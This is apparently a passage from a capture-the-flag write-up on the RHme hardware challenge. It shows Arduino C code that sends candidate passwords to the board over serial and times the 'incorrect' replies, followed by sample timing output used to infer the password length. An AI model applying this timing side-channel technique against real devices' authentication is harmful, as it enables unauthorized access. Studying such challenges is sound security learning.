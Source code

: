 ```c
    Serial.print(maxlen);               // Note it to the serial port for data collection
     
    rhmeserial.write(current_pw);       // send the password
    timer = micros();                   // begin the timer!
    
    count++;                            // move along to the next char in the alphabet
    if (count > rounds_per_len) {
      count = 0;                        // reset to 0, do it again.
      maxlen--;
      makepw(maxlen, current_pw);
      if (maxlen == 0) {
        Serial.println("Finished.");
        while(Serial.available()==0) {}
      }
    }
  }
  // Handle incoming response from the RHme board
  while(rhmeserial.available()) {         // while the RHme serial port has data available
    char c = rhmeserial.read();           // get a byte from the RHme serial 
    rhmedata += c;                        // concatenate it with the string so far
  }
  // If we got a response, is "incorrect" in it?
  if(rhmedata.length() > 0 && rhmedata.indexOf("incorrect") >= 0) {
    timedelta = micros() - timer;
    Serial.print("\t"); Serial.println(timedelta);   // Send result to PC for data collection.
    rhmedata = "";                       // Reset the string to null, we're done with that data.
    readynext = true;
  }
  // If our Arduino NANO wants to reply , then reply.
  if (Serial.available()) {
    rhmeserial.write(Serial.read());
  }
}

```
 

When we attack the Arduino we get tab delimited time data. We have the Arduino repeat the experiment 100 times per password length so we can get a statistically interesting data set. It looks like this on the USB uart output: 
```
25  44152
25  44108
25  44080
25  44156
25  44080
25  44152
25  44080
25  44160
25  44080
...
1  45292
1  45300
1  45244
1  45232
1Finished.
```
 